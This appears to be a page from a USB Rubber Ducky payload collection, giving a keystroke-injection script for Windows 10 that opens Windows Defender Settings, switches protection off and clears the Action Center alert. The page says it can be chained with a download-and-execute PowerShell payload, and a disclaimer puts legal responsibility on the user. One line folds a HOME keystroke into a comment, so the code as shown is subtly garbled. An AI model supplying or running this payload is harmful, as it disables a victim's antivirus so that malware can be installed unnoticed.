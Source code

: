 A ducky script that disables Windows defender, then clears the action center prompt

NOTE: this is only tested on the windows 10 1607 build, AKA the anniversary edition.

Most older machines will probably need more delay

This can be combined with other scripts. 


Preview: https://www.youtube.com/watch?v=XTF0U5jN1us

when combined with [[Payload - Windows 10 : Download and execute file with Powershell]]**:** https://www.youtube.com/watch?v=r6vwQ6QJujg

```
REM turn off windows defender then clear action center
REM author:judge2020
REM You take responsibility for any laws you break with this, I simply point out the security flaw
REM
REM start of script
REM
REM let the HID enumerate
DELAY 2000
ESCAPE
DELAY 100
CONTROL ESCAPE
DELAY 100
STRING Windows Defender Settings
ENTER
DELAY 2000
REM why TAB and HOME?
TAB
DELAY 50
REM why TAB and HOME?HOME
DELAY 50
ALT F4
DELAY 3200
REM windows + a = ????
GUI a 
DELAY 500
ENTER
DELAY 100
GUI a
```